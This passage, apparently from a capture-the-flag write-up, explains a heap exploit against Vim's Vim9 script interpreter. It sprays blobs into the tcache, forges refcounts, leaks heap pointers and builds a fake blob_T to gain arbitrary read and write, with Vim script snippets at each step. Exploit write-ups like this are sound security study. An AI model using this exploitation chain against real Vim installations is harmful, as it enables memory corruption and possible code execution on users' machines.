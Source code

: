 The size of this object will be `0x38`, with the last two `QWORD`s being the
`typval_T` wrapper of the blob.

Before doing anything, we should spray a bit of 0x38 sized generic objects (I
used blobs) to fill the tcache and make the heap more deterministic.

Now, let's try to overwrite an object with a lot of ~~`A`s~~ `\xff`s (the
refcount has to be negative, otherwise it won't crash):  
```vim  
var blob_o: BlobClass = BlobClass.new()  
Ref(blob_o)  
var obj_replace: blob = 0zffffff...  # 0x38 times `ff`  
```

If we debug this, we can see our `ff`s. Yay!

Without a leak we cannot do much, fortunately there is an easy way to get it:
overwrite the refcount with something big so that it doesn't bother us, then
reassign the blob field with a new blob et voilà.  
```vim  
var obj_replace: blob = 0z0000000000000000.3713000000000000.4141...  
var blob_replace: blob = 0z41  
blob_o.b = blob_replace  
echo obj_replace[-0x8 :]  
```

We can even do something better. Reassign the blob field with a blob of size
`0x28`, the size of a `blob_T` struct, this way we can use that as our fake
blob. Since the heap is not deterministic (because vim does stuffs), we still
need to leak the blob `ga_data` field. We can do it using the `len` function
since it just reads a `DWORD` from the blob object, indeed we already have
(almost) arbitrary read. Almost because if the object is aligned such that the
blob ref counter is 0 or a negative int value, the program will most likely
crash trying to free a fake object. It turns out that we can leak the lower 32
bits of the `ga_data` pointer, but not the upper 32, but it doesn't matter,
since we already have a heap leak and the upper 32 bits are the same.  
```vim  
var blob_replace: blob = 0z4141...  
blob_o.b = blob_replace

var blob_address: number = BlobToNumber(obj_replace[-0x8 :])

SetBlobPointer(obj_replace, blob_address + 0x10)  
var blob_data_address_low: number = and(len(blob_o.b), 0xffffffff)  
var blob_data_address_high: number = blob_address >> 32  
var blob_data_address: number = or(blob_data_address_low,
blob_data_address_high << 32)  
```

Perfect, now we can set the object's blob pointer to our fake blob and achieve
arbitrary read and write:

```vim  
SetValidBlob(blob_replace)  
SetBlobPointer(obj_replace, blob_data_address)  
if len(blob_o.b) != 0x1337  
	echo "NO ARBITRARY BLOB"  
	return  
endif  
```

